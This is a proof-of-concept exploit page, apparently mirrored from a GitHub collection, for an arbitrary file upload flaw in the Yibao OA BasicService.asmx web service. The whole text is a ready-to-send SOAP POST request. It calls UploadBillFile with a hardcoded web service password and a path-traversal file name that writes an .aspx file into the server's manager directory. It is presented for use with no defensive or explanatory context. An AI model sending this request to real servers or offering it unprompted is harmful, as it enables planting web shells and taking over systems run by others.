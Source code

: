 # yibao_basicservice_fileupload
2024.4.1 @2
from: https://github.com/wy876/POC/blob/main/%E6%98%93%E5%AE%9DOA-BasicService.asmx%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
```
POST /WebService/BasicService.asmx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: http://tempuri.org/UploadBillFile
Content-Type: text/xml;charset=UTF-8
Content-Length: 521

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:UploadBillFile>
         <!--type: base64Binary-->
         <tem:fs>aGVsbG8K</tem:fs>
         <!--type: string-->
         <tem:FileName>../../manager/hello.aspx</tem:FileName>
         <!--type: string-->
         <tem:webservicePassword>{ac80457b-368d-4062-b2dd-ae4d490e1c4b}</tem:webservicePassword>
      </tem:UploadBillFile>
   </soapenv:Body>
</soapenv:Envelope>
```
